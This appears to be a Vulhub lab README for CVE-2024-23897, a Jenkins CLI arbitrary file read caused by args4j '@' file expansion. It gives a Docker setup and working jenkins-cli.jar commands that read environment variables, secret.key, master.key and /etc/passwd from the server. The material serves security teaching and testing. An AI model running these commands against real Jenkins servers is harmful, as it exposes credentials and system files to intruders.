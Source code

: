 # Jenkins Arbitrary File Read Vulnerability Through the CLI (CVE-2024-23897)

Jenkins is an open source automation server.

Jenkins uses the [args4j library](https://github.com/kohsuke/args4j) to parse command arguments and options on the Jenkins controller when processing CLI commands. This command parser has a feature that replaces an `@` character followed by a file path in an argument with the file’s contents (expandAtFiles), which leads attackers to read arbitrary files from Jenkins server.

This vulnerability affects Jenkins prior to 2.441.

References:

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## Vulnerable Environment

Execute following command to start a Jenkins server 2.441:

```
docker compose up -d
```

You can access the Jenkins server through `http://your-ip:8080/` after the server is started. Default administrator's username and password are `admin` and `vulhub`.

## Exploit

First, you should download the command-line client `jenkins-cli.jar` by `http://localhost:8080/jnlpJars/jenkins-cli.jar`.

Read the file `/proc/self/environ` to get the Jenkins base directory, `JENKINS_HOME=/var/jenkins_home`:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```

![](1.png)

Then, you can use it to retrieve sensitive files such as `secrets.key` or `master.key` (anonymously, only the first line of the file can be read via an error on the command line):

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```

![](2.png)

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```

![](3.png)

Because the "Allow anonymous read access" is turned on, you can also read the full content of a file:

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
```

![](4.png)
